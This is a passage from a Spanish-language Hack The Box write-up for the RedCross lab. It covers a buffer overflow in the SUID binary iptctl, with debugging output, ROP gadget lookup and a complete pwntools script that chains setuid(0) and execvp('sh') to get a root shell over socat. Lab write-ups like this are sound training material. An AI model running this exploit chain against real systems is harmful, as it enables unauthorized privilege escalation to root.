**Acción:** vamos a introducir esta cadena en el input del programa y ver el registro `RSP`.

```bas
RSP: 0x7fffffffd998 ("A;AA)AAEAAaAA0AAFAAbA\n")
```

**Acción:** ejecutamos `pattern offset A;AA)AAEAAaAA0AAFAAbA` para solicitar el resultado y vemos que es 29 el número máximo de caracteres permitidos.

```bash
A;AA)AAEAAaAA0AAFAAbA found at offset: 29
```

**Acción:** creamos una cadena con 29 (A), 8 (B) y 8 (C) `python -c 'print("A"*29 + "B"*8 + "C"*8)'`. El resultado lo introducimos en el programa para ver a donde va a parar cada conjunto de caracteres y confirmar que tenemos control del flujo del programa a bajo nivel. 

```bash
Entering interactive mode
Action(allow|restrict|show): allowAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBCCCCCCCC
IP address: 1.1.1.1
```

**Resultado:** confirmamos que podemos sobrescribir el `RSP`, controlando así el flujo del programa y teniendo una puerta de entrada a ganar acceso al sistema como root.

```bash
RSP: 0x7fffffffd998 ("BBBBBBBBCCCCCCCC\n")
```


---

##### Depuración

**Acción:** llegado a este punto vamos a realizar una serie de acciones para comprobar y explicar por qué es posible derivar este buffer over flow a una ejecución de comandos.

Desde la máquina objetivo:
```bash
/opt/iptctl$ ldd /opt/iptctl/iptctl                      
	linux-vdso.so.1 (0x00007ffef213f000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f32a94d5000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f32a96ab000)
```

```bash
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f32a94d5000)
```

```bash
cat /proc/sys/kernel/randomize_va_space # devuelve --> 2
```

En el código fuente observamos las siguientes líneas:
```c
 104   │     if(child_pid==0){
 105   │         setuid(0);
 106   │         execvp(args[0],args);
 107   │         exit(0);
 108   │     }
```

**Explicación:** confirmamos varios aspectos críticos para la explotación del Buffer Overflow:

1. **Librerías del sistema**: mediante `ldd` identificamos que el binario usa `libc.so.6` ubicada en `/lib/x86_64-linux-gnu/libc.so.6`. Esta librería contiene funciones del sistema que podemos aprovechar para la explotación (como `system`, `execve`, etc.).
2. **ASLR activado**: el comando `cat /proc/sys/kernel/randomize_va_space` devuelve `2`, lo que indica que ASLR (Address Space Layout Randomization) está completamente habilitado. Esto significa que las direcciones de memoria se aleatorizan en cada ejecución, dificultando la explotación tradicional.
3. **Ejecución privilegiada**: en el código fuente vemos que cuando `child_pid==0`, el programa ejecuta `setuid(0)` antes de `execvp`. Esto es crucial porque el binario tiene el bit SUID activado y llama a `setuid(0)` explícitamente. Cuando logremos controlar el flujo de ejecución mediante el Buffer Overflow, cualquier comando que ejecutemos heredará estos privilegios de root (UID 0).

La combinación de estos factores nos da el escenario completo: aunque ASLR está activado complicando la explotación directa mediante direcciones hardcodeadas, el hecho de que el programa se ejecute con SUID y llame a `setuid(0)` nos permite, si logramos controlar el flujo de ejecución mediante el Buffer Overflow, ejecutar comandos arbitrarios como root. Para sortear ASLR, necesitaremos técnicas como ret2libc o encontrar gadgets ROP que nos permitan llamar a funciones del sistema sin depender de direcciones estáticas.

**Acción:** comprobamos las direcciones de 'execvp' y 'setuid' `objdump -D iptctl| grep execvp` y `objdump -D iptctl| grep setuid`

```bash
0000000000400760 <execvp@plt>:
  400760:	ff 25 f2 18 20 00    	jmp    *0x2018f2(%rip)        # 602058 <execvp@GLIBC_2.2.5>
  400d13:	e8 48 fa ff ff       	call   400760 <execvp@plt>
```

```bash
0000000000400780 <setuid@plt>:
  400780:	ff 25 e2 18 20 00    	jmp    *0x2018e2(%rip)        # 602068 <setuid@GLIBC_2.2.5>
  400d00:	e8 7b fa ff ff       	call   400780 <setuid@plt>
```

**Explicación:** mediante `objdump` desensamblamos el binario para localizar las direcciones de las funciones `execvp` y `setuid` dentro del programa. Lo que obtenemos son las direcciones de la **PLT (Procedure Linkage Table)**, que actúa como tabla de enlaces para funciones externas de librerías compartidas.

Para `execvp`:

- La dirección de la PLT es `0x400760`
- Esta entrada apunta mediante un salto (`jmp`) a la dirección real de `execvp` en la GOT (Global Offset Table) ubicada en `0x602058`
- Vemos que se llama desde la dirección `0x400d13` dentro del programa

Para `setuid`:

- La dirección de la PLT es `0x400780`
- Apunta a la GOT en `0x602068`
- Se invoca desde `0x400d00`

**¿Por qué es relevante?** Aunque ASLR aleatoriza las direcciones de las librerías del sistema en memoria, las direcciones de la PLT dentro del binario son *estáticas y conocidas*. Esto significa que podemos usar estas direcciones fijas (`0x400760` para execvp y `0x400780` para setuid) en nuestro payload de Buffer Overflow para construir una cadena ROP (Return-Oriented Programming).

La estrategia sería: sobrescribir el RSP con estas direcciones para forzar al programa a ejecutar primero `setuid(0)` (elevando privilegios a root) y luego `execvp` (ejecutando un comando arbitrario que le pasemos como argumento), todo ello sin necesidad de conocer las direcciones aleatorias de la libc gracias a que usamos las entradas estáticas de la PLT.

**Además:** en arquitecturas x86_64 (64 bits), la convención de llamada a funciones sigue un orden específico para pasar argumentos mediante registros. Cuando un programa ejecuta una función, los primeros 6 argumentos se pasan en este orden estricto:

1. **RDI** → primer argumento
2. **RSI** → segundo argumento
3. **RDX** → tercer argumento
4. **RCX** → cuarto argumento
5. **R8** → quinto argumento
6. **R9** → sexto argumento

Si hay más de 6 argumentos, los restantes se pasan a través de la pila (stack).

**¿Por qué es crucial para nuestro Buffer Overflow?** Para explotar exitosamente el binario, no basta con saltar a las direcciones de `setuid` y `execvp`. Necesitamos controlar también **qué argumentos reciben estas funciones**.

Por ejemplo:

- Para `setuid(0)`, necesitamos que **RDI contenga el valor 0** (UID de root)
- Para `execvp("/bin/sh", args)`, necesitamos que **RDI apunte a la cadena "/bin/sh"** y **RSI apunte al array de argumentos**

Esto significa que en nuestra cadena ROP debemos incluir **gadgets** (pequeñas secuencias de instrucciones terminadas en `ret`) que nos permitan **poblar estos registros con los valores necesarios** antes de saltar a las funciones. Por ejemplo, necesitaremos encontrar gadgets como `pop rdi; ret` para cargar valores en RDI desde la pila, permitiéndonos así controlar completamente los argumentos de las funciones que queremos ejecutar con privilegios de root.

**Acción:** desde `gdb` vamos a obtener dos valores, para ello hacemos un breakpoint en la función main (el inicio) y  lo arrancamos.

```bash
b *main
r
shell ropper --file ./iptctl --search "pop rdi"
shell ropper --file ./iptctl --search "pop rsi"
```

**Resultado:** 

```bash
0x0000000000400de3: pop rdi; ret;

0x0000000000400de1: pop rsi; pop r15; ret; 
```

---

#### Script

Este script va aprovechar un Buffer Over Flow en el programa para aprovechar una función definida en su código fuente y obtener una shell con privilegios de root.

```bash
execvp(args[0],args);

# esta función es como hacer esto (aprovechar el setuid(0) para obtener una shell como root):

execvp("sh",0);
```


**Script:**

```python
#!/usr/bin/env python3

from pwn import *
import sys, signal

def def_handler(sig, frame):
    print(f"\n[!] Saliendo...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

if __name__ == '__main__':
    
    # ========== Configuración del Payload ==========
    offset = 29  # Bytes hasta sobrescribir RBP (obtenido con: pattern create 50 -> pattern offset)
    junk = b"allow" + b"A" * offset  # Acción válida + padding
    
    # ========== Gadgets ROP ==========
    # Obtenidos con: gdb -q iptctl -> b *main -> r -> shell ropper --file ./iptctl --search "pop rdi"
    pop_rdi = p64(0x400de3)  # pop rdi; ret
    
    # Obtenido con: gdb -q iptctl -> b *main -> r -> shell ropper --file ./iptctl --search "pop rsi"
    pop_rsi = p64(0x400de1)  # pop rsi; pop r15; ret
    
    null = p64(0x0)  # Valor NULL (0x0)
    
    # ========== Direcciones de Funciones PLT ==========
    # Obtenido con: objdump -D iptctl | grep setuid
    # Alternativa 1: readelf -W -r iptctl | grep setuid
    # Alternativa 2: gdb -q iptctl -> info functions setuid
    setuid = p64(0x400780)  # setuid@plt
    
    # Obtenido con: objdump -D iptctl | grep execvp
    # Alternativa 1: readelf -W -r iptctl | grep execvp
    # Alternativa 2: gdb -q iptctl -> info functions execvp
    execvp = p64(0x400760)  # execvp@plt
    
    # ========== Dirección de la String "sh" ==========
    """
    Obtener la dirección de 'sh' string en el binario (múltiples métodos):
    
    Método 1 (strings + grep - RECOMENDADO):
        strings -a -t x iptctl | grep "^.*sh$"
        Resultado: 40046e sh
    
    Método 2 (rabin2 de radare2):
        rabin2 -z iptctl | grep " sh$"
    
    Método 3 (ropper):
        ropper --file ./iptctl --string "sh"
    
    Método 4 (readelf para examinar sección .rodata):
        readelf -x .rodata iptctl | grep -B2 -A2 "sh"
    
    Método 5 (desde GDB - verificación):
        gdb -q iptctl
        (gdb) b *main
        (gdb) r
        (gdb) x/s 0x40046e
        Resultado: 0x40046e: "sh"
    
    Método 6 (objdump para visualizar sección .rodata):
        objdump -s -j .rodata iptctl | grep -A5 046
    
    NOTA: La dirección es estática (0x40046e) porque PIE está deshabilitado.
    """
    sh_addr = p64(0x40046e)  # String "sh" en el binario
    
    # ========== Construcción de la Cadena ROP ==========
    """
    Objetivo: ejecutar setuid(0) seguido de execvp("sh", NULL)
    
    Convención de llamada x86_64 (System V AMD64 ABI):
        RDI = primer argumento
        RSI = segundo argumento
        RDX = tercer argumento
        RCX = cuarto argumento
        R8  = quinto argumento
        R9  = sexto argumento
    
    Flujo de ejecución:
        1. pop_rdi; ret          -> Carga 0x0 en RDI desde la pila
        2. setuid@plt            -> Ejecuta setuid(0) - eleva privilegios
        3. pop_rdi; ret          -> Carga dirección de "sh" en RDI
        4. pop_rsi; pop r15; ret -> Carga NULL en RSI y R15
        5. execvp@plt            -> Ejecuta execvp("sh", NULL) - spawn shell root
    """
    
    payload = junk
    payload += pop_rdi        # Preparar RDI (primer argumento)
    payload += null           # RDI = 0
    payload += setuid         # setuid(0) - elevamos privilegios a root (UID 0)
    
    payload += pop_rdi        # Preparar RDI para execvp
    payload += sh_addr        # RDI = dirección de "sh" (0x40046e)
    payload += pop_rsi        # Preparar RSI (segundo argumento)
    payload += null           # RSI = NULL (no hay argumentos adicionales)
    payload += null           # R15 = NULL (pop extra requerido por el gadget)
    payload += execvp         # execvp("sh", NULL) - spawn shell interactiva
    payload += b"\n1.1.1.1\n" # IP dummy (requerida por validación del programa)
    
    # ========== Explotación ==========
    try:
        log.info("Conectando al servicio socat en 10.10.10.113:9002...")
        p = remote("10.10.10.113", 9002)
        log.success("Conexión establecida correctamente")
        
        log.info("Enviando payload ROP...")
        p.sendline(payload)
        
        log.success("¡Payload enviado! Shell obtenida como root (UID 0)")
        log.info("Comandos útiles: 'whoami', 'id', 'cat /root/root.txt'")
        p.interactive()
        
    except Exception as e:
        log.error(f"Error durante la explotación: {e}")
        log.failure("Verifica:")
        log.failure("  1. Tu IP está en la whitelist (admin.redcross.htb)")
        log.failure("  2. El servicio socat está corriendo en la máquina objetivo")
        log.failure("  3. Comando en objetivo: socat TCP-LISTEN:9002 EXEC:\"/opt/iptctl/iptctl -i\"")
        sys.exit(1)```
```

Desde la máquina objetivo ejecutamos: nos quedamos en escucha por el puerto que indiquemos (debe coincidir al del script)

```bash
socat TCP-LISTEN:9002 EXEC:"/opt/iptctl/iptctl -i"
```

**Acción:** al ejecutar el script `python3 exploit.py` obtenemos una shell muy básica pero como root. Ya podríamos visualizar las dos flags que pide para este laboratorio Hack The Box.

**Nota:** para que podamos ejecutar el script con éxito, necesitamos establecer una conexión vía `socat` con la máquina objetivo donde corre el programa que estamos explotando con los permisos root que queremos obtener. Para ello es necesario que nuestra IP de atacante forme parte de la `whitelist` del apartado de `admin.redcross.htb` ya que sin ella no podremos establecer correctamente la conexión y no obtendremos la shell.

---
